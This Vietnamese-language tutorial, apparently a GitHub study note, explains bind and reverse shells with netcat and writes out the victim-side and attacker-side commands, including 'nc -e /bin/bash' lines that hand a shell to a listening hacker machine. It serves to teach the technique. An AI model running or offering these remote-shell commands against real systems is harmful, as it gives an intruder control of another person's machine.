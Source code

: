 # Bind shell và Reverse shell

## Bind shell

Ta có thể hiểu đơn giản ở đây có 2 máy một máy là máy victim và một máy là máy của hacker. Trên máy victim lúc này sẽ mở lắng nghe trên một port nào đó để lấy các câu lệnh và thực hiện. Máy của hacker sẽ mở một kết nối đến máy victim. Lúc này tại máy của hacker sẽ nhập các lệnh và các lệnh này sẽ được gửi đến máy của victim để thực hiện sau đó kết quả sẽ được gửi lại phía máy của hacker

![](../images/nc/nc1.png)

Như vậy máy victim sẽ nghe các yêu cầu từ máy của hacker gửi đến port 5555 để thực hiện các yêu cầu đó.

Để làm được việc này ta sử dụng command `nc` để thiết lập kết nối giữa 2 máy

Trên máy victim thiết lập lắng nghe trên port 5555

```
nc -nvlp 5555 -e /bin/bash
```

Trong đó:
 * `-n` chỉ ra ở đây sử dụng IP thay vì DNS
 * `-v` để hiển thị chi tiết hoạt động trên màn hình
 * `-l` chỉ ra đây là listen mode (ở trên máy lắng nghe kết nối)
 * `-p` để chỉ ra port ở (ở đây chỉ ra port là 5555)
 * `-e` chỉ ra đường dẫn tới shell. Trong linux đường dẫn này là `/bin/bash` còn trên windows thì nó là `cmd.exe`

Còn trên máy của hacker sẽ thực hiện thiết lập kết nối đến máy victim

```
nc -nv 10.10.3.5 5555
```

Như vậy sau khi thiết lập hacker có thể đứng từ máy của mình và thao tác trên máy của victim (giống như ssh)

Trên máy victim

![](../images/nc/01.png)

Trên máy của hacker

![](../images/nc/02.png)

## Reverse Shell

Reverse shell và bind shell có cùng một mục đích nhưng có đôi chút khác biệt ở cách thực hiện. Ví dụ với bind shell thì nếu máy của nạn nhân là một địa chỉ private thông qua cơ chế NAT thì máy của hacker sẽ không thể nhìn thấy nó và sẽ không thể thiết lập được kết nối đến nó. Với reverse shell nó sẽ để máy của victim kết nối đến máy của hacker (Máy của hacker nên có thể thay đổi được địa chỉ phù hợp. Có thể là IP public hoặc sẽ có cơ chế NAT để cho các máy bên ngoài internet thâý được nó). Máy của hacker lúc này sẽ là máy lắng nghe các yêu cầu sau đó máy victim sẽ kết nối đến đây để lấy các yêu cầu này về và thực hiện

![](../images/nc/nc1.png)

Trên máy của hacker thiết lập lắng nghe trên port 5555

```
nc -nvlp 5555
```

Trên máy victim thiết lập kết nối đến máy của hacker

```
nc -nv 10.10.3.1 5555 -e /bin/bash
```

Trên máy của hacker

![](../images/nc/04.png)

Trên máy của victim

![](../images/nc/03.png)
